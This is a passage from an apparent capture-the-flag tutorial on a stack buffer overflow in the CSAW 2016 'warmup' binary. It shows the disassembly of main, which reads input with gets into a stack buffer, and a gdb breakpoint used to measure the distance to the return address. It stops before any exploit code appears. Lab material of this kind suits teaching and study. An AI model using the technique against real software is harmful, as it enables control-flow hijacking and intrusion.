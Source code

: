 So let's use gdb to figure out how much data we need to send before overwriting the return address, so we can land the bug. I will just set a breakpoint for after the `gets` call:

```
gef➤  disas main
Dump of assembler code for function main:
   0x000000000040061d <+0>:    push   rbp
   0x000000000040061e <+1>:    mov    rbp,rsp
   0x0000000000400621 <+4>:    add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>:    mov    edx,0xa
   0x000000000040062a <+13>:    mov    esi,0x400741
   0x000000000040062f <+18>:    mov    edi,0x1
   0x0000000000400634 <+23>:    call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:    mov    edx,0x4
   0x000000000040063e <+33>:    mov    esi,0x40074c
   0x0000000000400643 <+38>:    mov    edi,0x1
   0x0000000000400648 <+43>:    call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:    lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:    mov    edx,0x40060d
   0x0000000000400656 <+57>:    mov    esi,0x400751
   0x000000000040065b <+62>:    mov    rdi,rax
   0x000000000040065e <+65>:    mov    eax,0x0
   0x0000000000400663 <+70>:    call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:    lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:    mov    edx,0x9
   0x0000000000400671 <+84>:    mov    rsi,rax
   0x0000000000400674 <+87>:    mov    edi,0x1
   0x0000000000400679 <+92>:    call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:    mov    edx,0x1
   0x0000000000400683 <+102>:    mov    esi,0x400755
   0x0000000000400688 <+107>:    mov    edi,0x1
   0x000000000040068d <+112>:    call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:    lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:    mov    rdi,rax
   0x0000000000400699 <+124>:    mov    eax,0x0
   0x000000000040069e <+129>:    call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:    leave  
   0x00000000004006a4 <+135>:    ret    
End of assembler dump.
gef➤  b *main+134
Breakpoint 1 at 0x4006a3
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw16_warmup/warmup
-Warm Up-
WOW:0x40060d
>15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffde50  →  "15935728"
$rbx   : 0x0               
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffde10  →  "0x40060d"
$rbp   : 0x00007fffffffde90  →  0x00000000004006b0  →  <__libc_csu_init+0> push r15
$rsi   : 0x35333935        
$rdi   : 0x00007fffffffde51  →  0x0038323735333935 ("5935728"?)
$rip   : 0x00000000004006a3  →  <main+134> leave
$r8    : 0x0000000000602269  →  0x0000000000000000
$r9    : 0x00007ffff7fda4c0  →  0x00007ffff7fda4c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf70  →  0x0000000000000001
$r14   : 0x0               
```